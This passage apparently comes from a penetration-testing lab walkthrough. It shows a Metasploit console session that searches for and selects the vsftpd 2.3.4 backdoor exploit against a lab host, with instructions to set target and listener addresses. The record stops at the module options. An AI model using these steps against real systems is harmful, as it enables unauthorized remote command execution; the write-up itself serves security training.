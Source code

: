 The search command in the msfconsole searches the Metasploit framework for exploits to the specified vulnerability.

Search command for vsftpd to find its exploits.

<pre data-line-numbers><code><strong>└─# msfconsole
</strong>                                                  
     ,           ,
    /             \                                                                                 
   ((__---,,,---__))                                                                                
      (_) O O (_)_________                                                                          
         \ _ /            |\                                                                        
          o_o \   M S F   | \                                                                       
               \   _____  |  *                                                                      
                |||   WW|||                                                                         
                |||     |||                                                                         
                                                                                                    

       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can use help to view all 
available commands

msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
<strong>   -  ----                                  ---------------  ----       -----  -----------
</strong>   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor                                                                                          


</code></pre>

Identified the exploit 'exploit/unix/ftp/vsftpd\_234\_backdoor to use. Run the use command for the exploit and set the rhost to 10.10.10.3 and lhost to 10.10.14.6. Check options.

{% code lineNumbers="true" %}
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit
                                      -framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

```
